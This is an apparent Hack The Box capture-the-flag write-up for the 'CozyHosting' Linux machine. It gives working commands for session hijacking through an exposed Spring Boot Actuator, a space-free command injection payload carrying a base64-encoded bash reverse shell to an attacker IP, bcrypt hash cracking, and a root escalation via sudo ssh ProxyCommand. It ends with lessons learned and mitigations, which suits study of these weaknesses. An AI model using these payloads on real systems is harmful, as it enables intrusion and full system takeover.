

# CozyHosting


**OS:** Linux  
**Difficulty:** Easy  
**Focus:** Spring Boot → Session Hijacking → Command Injection → Sudo Misconfiguration 

## Overview

**CozyHosting** is an easy Linux machine from Hack The Box that focuses on:

- Spring Boot misconfiguration
- Exposed Actuator endpoints
- Session hijacking
- Command injection
- Credential reuse
- Sudo misconfiguration

The objective was to gain initial access to the web application, pivot to a system user, and ultimately escalate privileges to root.

## Skills Demonstrated

- Web application enumeration
- Technology fingerprinting
- Abuse of exposed management endpoints
- Blind command injection exploitation
- Reverse shell stabilization
- Password hash cracking (bcrypt)
- Privilege escalation via sudo misconfiguration

## Initial Enumeration

I started with a basic service and version detection scan using default scripts:

```bash
┌──(h4wker㉿kali-linux-2025-2)-[~]
└─$ nmap -sC -sV 10.129.229.88       
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-23 15:20 CST
Nmap scan report for 10.129.229.88
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds

```

Observations: 

- SSH is exposed on port 22 running OpenSSH 8.9p1
- HTTP is running on port 80 using nginx 1.18.0
- The server redirects to http://cozyhosting.htb.

Since the HTTP service redirects to a domain, I added the following entry to /etc/hosts:

```bash
10.129.229.88 cozyhosting.htb
```

## Web Enumeration

After configuring the domain locally , I began directory brute-forcing using ffuf

```bash
┌──(h4wker㉿kali-linux-2025-2)-[~]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ  -u http://cozyhosting.htb/FUZZ -c   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 128ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 95ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 89ms]
index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 119ms]    
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 108ms]
```

**Observations**

- /admin returns **401 Unauthorized**, indicating authentication is required.
- /login is accessible and likely the main authentication portal.
- /error returns a **500 Internal Server Error**, which may indicate improper error handling.
- /logout returns **204 No Content**, suggesting session-based authentication is implemented.

At this point, it became clear that authentication mechanisms would likely play an important role in gaining initial access.

## Technology Fingerprinting


While enumerating the /error endpoint, I noticed something interesting.

Visiting:



Returned a **Whitelabel Error Page**, which is commonly associated with **Spring Boot** applications.


This strongly suggested that the backend was built using **Spring Boot**.

At this point, I decided to look for known Spring Boot-related exposures rather than generic CVEs.

## Spring Boot Actuator Enumeration

Since Spring Boot applications often expose /actuator endpoints (especially in misconfigured environments), I searched for a Spring-specific wordlist:

```bash
┌──(h4wker㉿kali-linux-2025-2)-[~]
└─$ find /usr/share/wordlists/SecLists | grep -i spring
/usr/share/wordlists/SecLists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.t
```

Then I used Gobuster to enumerate common Spring endpoints:

```bash
┌──(h4wker㉿kali-linux-2025-2)-[~]
└─$ gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/Programming-Language-Specific/Java-Spring-Boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator/env         (Status: 200) [Size: 4957]
/actuator             (Status: 200) [Size: 634]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/sessions    (Status: 200) [Size: 98]
/admin                (Status: 401) [Size: 97]
Progress: 202 / 203 (99.51%)
===============================================================
Finished
===============================================================                                                                                   
```

Spring Boot Actuator endpoints are meant for monitoring and debugging.

If exposed in production without authentication, they can leak:

- Environment variables
- Application configuration
- Internal mappings
- Session information
- Bean definitions
- Potential credentials

The most interesting endpoint here was:

```bash
/actuator/sessions
```

Because exposed session data can lead to **session hijacking**.

## Inital Access - Session Hijacking via Actuator

While exploring the exposed Actuator endpoints, I inspected:


The endpoint returned JSON data containing active session identifiers:

```json
{
  "F0B39AD90046A9DC0A9DB99D5245E0B2": "kanderson",
  "F97951A98A71135960D33751684F2C62": "UNAUTHORIZED"
}
```

One of the session IDs was associated with the user “kanderson”

This indicated that:

- The application was exposing **active authenticated sessions**
- Session IDs were not protected
- It was possible to hijack an authenticated user session

## Session Hijacking


To test whether the session could be reused:

1. I opened the browser developer tools.
2. Navigated to the **Storage / Cookies** section.
3. Modified the session cookie value to:

```json
F0B39AD90046A9DC0A9DB99D5245E0B2
```

After refreshing the page, I gained access to restricted functionality as user kanderson.


## Exploiting the Admin Panel - Command Injection


After hijacking the session and accessing /admin as user kanderson, I analyzed the available functionality.

The panel included a feature titled:

> **Include host into automatic patching**
> 

It required:

- Hostname
- Username

The form appeared to attempt an SSH connection to a provided host.

This raised suspicion that the backend might be executing system-level commands using these user-supplied parameters.


I intercepted the request in Burp Suite and observed the following POST request:


To test for command injection, I modified the username parameter:

```json
host=127.0.0.1&username=;{sleep,3};
```

If the backend was vulnerable, this payload would delay the response by 3 seconds.

The response time increased, confirming that:

- The input was being executed in a shell context
- Command injection was possible
- The application did not sanitize user input

This confirmed a **blind command injection vulnerability**.

## Remote Code Execution - Reverse Shell


After confirming command injection through time-based testing, I proceeded to obtain a reverse shell.

Because the injection context was restrictive and could break with spaces or special characters, I decided to:

1. Use a Bash reverse shell payload
2. Encode it in Base64
3. Decode and execute it server-side

### Reverse Shell Payload

Original payload:

```bash
bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

To avoid parsing issues, I encoded it:

```json
┌──(h4wker㉿kali-linux-2025-2)-[~]
└─$ base64 -w 0 shell
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzkwMDEgMD4mMQo=
```

Then URL-encoded it to safely transmit through the POST request.

```bash
host=127.0.0.1&username=;{echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43LzkwMDEgMD4mMQo%3D}|{base64,-d}|bash;
```

This works because:

- echo prints the base64 string
- base64 -d decodes it
- bash executes the decoded payload
- The {} syntax avoids spaces
- The ; allows command chaining

### Listener

On my attacking machine:

```json
nc -lvnp 9001
```

I successfully obtained a shell as:

```bash
app@cozyhosting:/app$
```

### Upgrading the shell

To improve interactivity:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then locally:

```bash
stty raw -echo; fg
export TERM=xterm
```

The shell was now fully interactive.

## Post - Exploitation - Credential Harvesting

Inside /app, I located:

```bash
┌──(h4wker㉿kali-linux-2025-2)-[~/box/BOOT-INF/classes]
└─$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR 
```

Contents revealed database credentials:

```bash
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

This indicated:

- The application uses PostgreSQL
- Credentials were hardcoded
- Local database access was possible

### Database Enumeration

Using the discovered credentials:

```bash
app@cozyhosting:/app$ psql -h localhost -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

After authenticating, I enumerated the databases and found:

```jsx
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

(END)
```

Inside the database, I discovered user credentials:

```bash
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

(END)
```

## Cracking Administrator Credentials

The passwords stored in the database were bcrypt hashes, using hashid, I confirmed the hash type:

```jsx
┌──(h4wker㉿kali-linux-2025-2)-[~/box]
└─$ hashid '$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim'
Analyzing '$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

I used Hashcat in mode **3200** (bcrypt

```jsx
joseneri@Joses-MacBook-Pro Box % hashcat -m 3200 --username hash rockyou.txt
hashcat (v7.1.2) starting

METAL API (Metal 370.64.2)
==========================
* Device #01: Apple M5, skipped

OpenCL API (OpenCL 1.2 (Nov  8 2025 19:10:43)) - Platform #1 [Apple]
====================================================================
* Device #02: Apple M5, GPU, 6062/12124 MB (1136 MB allocatable), 10MCU

Approaching final keyspace - workload adjusted.           

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

After running the attack with the full rockyou.txt wordlist, the admin password was successfully recovered:

```bash
manchesterunited
```

## **Pivoting to a Local User**

After cracking the administrator hash and obtaining the password, I enumerated local system users.

 The presence of a regular user named josh suggested that the cracked password might be reused at the system level.

```jsx
app@cozyhosting:/app$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

From the app shell, I attempted:

```bash
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$
```

This confirmed **credential reuse between the web application and the local system user**.

## Privilege Escalation

After gaining access as user josh, I checked for sudo privileges:

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$
```

User josh was allowed to execute:

```bash
/usr/bin/ssh
```

as root, with **any arguments**.

This is dangerous because ssh allows arbitrary command execution via the ProxyCommand option.

### Exploting SSH ProxyCommand

---

The -o ProxyCommand option allows execution of a local command before establishing an SSH connection.

Since ssh was allowed via sudo, I executed:

```jsx
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# 
# ls
user.txt
# whoami
root
# cd 
# ls
root.txt

```

**Why This Works**

- ProxyCommand executes a local command
- ;sh 0<&2 1>&2 spawns a shell
- File descriptors are redirected to maintain interactivity
- Since ssh is executed with sudo, the spawned shell runs as **root**

---

## Lessons Learned

- Spring Boot Actuator endpoints must never be exposed in production.
- Exposed session identifiers can lead to full authentication bypass.
- Blind command injection can be reliably confirmed using time-based payloads.
- Hardcoded database credentials significantly increase lateral movement risk.
- Password reuse between applications and system accounts enables rapid privilege escalation.
- Allowing unrestricted arguments in sudo configurations can lead to full system compromise.

---

## Mitigation

- Restrict or disable `/actuator` endpoints in production environments.
- Protect session identifiers and enforce secure cookie flags (HttpOnly, Secure).
- Implement strict input validation and avoid shell execution of user-controlled parameters.
- Remove hardcoded credentials from application configuration files.
- Enforce strong password policies and prevent credential reuse.
- Avoid wildcard sudo permissions such as `/usr/bin/ssh *`.

